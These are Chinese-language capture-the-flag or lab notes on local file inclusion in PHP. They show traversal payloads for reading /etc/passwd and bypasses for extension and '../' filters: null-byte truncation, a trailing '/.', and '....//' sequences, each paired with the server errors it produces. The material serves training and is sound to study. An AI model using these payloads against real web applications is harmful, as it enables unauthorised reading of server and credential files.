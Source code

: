 ## 本地文件包含 - LFI #2
### 討論幾種繞過包含函數中的過濾器的技術
1.
```
搜尋 http://10.10.68.121/lab3.php?file=../../../../etc/passwd

發現報錯 在我的passwd後面加上了.php
Warning: include(includes/../../../../etc/passwd.php)

所以用空字節，可以將其視為試圖欺騙 Web 應用程序忽略 Null Byte 之後的任何內容。
```
告訴 **include** 函數忽略空字節之後的任何內容，如下所示：    
```
include("languages/../../../../../etc/passwd%00").".php");
```
相當於
```
include("languages/../../../../../etc/passwd");
```
**注意：%00技巧已修復，不適用於PHP 5.3.4及更高版本。**


## lab4
```
http://10.10.61.65/lab4.php?file=../../../etc/passwd/
收到了錯誤: Warning: file_get_contents(../../../etc/passwd/) [function.file-get-contents]: failed to open stream:
```
如果我們嘗試 /etc/passwd/. ， 結果將是 /etc/passwd因為 dot 指的是當前目錄。  
**/.繞過**
```
http://10.10.61.65/lab4.php?file=../../../etc/passwd/.
```

## lab5 繞過過濾器
一樣搜尋../../../etc/passwd後   
```
抱錯:
File Content Preview of ../../../etc/passwd

Warning: include(includes/etc/passwd) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab5.php on line 28

Warning: include() [function.include]: Failed opening 'includes/etc/passwd' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www/html/lab5.php on line 28
```

看到web把 **../../../etc/passwd** 換成 **/etc/passwd**  
../../../ 被過濾了
```
....//....//....//....///etc/passwd 這樣繞過
把../過濾成空字符串 就會變成
../../../../etc/passwd
```
